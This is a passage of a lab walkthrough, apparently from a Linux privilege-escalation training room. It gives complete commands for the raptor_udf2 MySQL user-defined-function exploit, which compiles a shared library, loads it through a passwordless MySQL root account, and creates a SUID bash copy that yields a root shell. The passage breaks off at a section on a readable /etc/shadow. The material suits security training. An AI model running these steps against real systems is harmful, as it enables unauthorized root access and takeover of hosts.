 # Service Exploits
The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use 
a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the 
MySQL service.

Change into the ```/home/user/tools/mysql-udf``` directory:
```sh
cd /home/user/tools/mysql-udf
```
Compile the ```raptor_udf2.c``` exploit code using the following commands:
```sh
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Connect to the MySQL service as the root user with a blank password:
```sh
mysql -u root
```

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:
```sh
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy ```/bin/bash``` to ```/tmp/rootbash``` and set the SUID permission:
```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
```sh
/tmp/rootbash -p
```

Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!
```sh
rm /tmp/rootbash
exit
```

# Weak File Permissions - Readable /etc/shadow
The ```/etc/shadow``` file contains user password hashes and is usually readable only by the root user.
